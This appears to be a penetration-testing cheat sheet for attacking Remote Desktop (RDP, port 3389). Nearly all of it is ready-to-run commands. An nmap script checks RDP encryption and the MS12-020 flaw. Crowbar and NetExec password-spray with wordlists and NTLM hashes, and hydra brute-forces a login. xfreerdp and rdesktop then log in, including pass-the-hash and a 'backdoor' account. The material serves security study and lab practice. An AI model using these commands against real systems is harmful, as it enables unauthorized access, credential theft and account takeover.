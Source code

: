 # RDP Port 3389

##### Enumeration

````
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 $ip -Pn
````

##### Password Spray

````
crowbar -b rdp -s 10.11.1.7/32 -U users.txt -C rockyou.txt
nxc rdp $ip -u users.txt -p passwords.txt --continue-on-success
nxc rdp $ip -u users.txt -H $HASH --continue-on-success
````

##### Password Cracking

```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

###### logging in

````
xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /h:1000 /w:1600 /v:192.168.238.191 /u:admin /p:password
xfreerdp /u:admin  /v:192.168.238.191 /cert:ignore /p:"password"  /timeout:20000 /drive:home,/tmp
xfreerdp /v:192.168.152.153 /u:backdoor /p:Password123 /cert:ignore +clipboard
xfreerdp /v:10.1.1.89 /u:USERX /pth:5e22b03be22022754bf0975251e1e7ac
rdesktop -u 'USERN' -p 'abc123//' 192.168.129.59 -g 94% -d example
````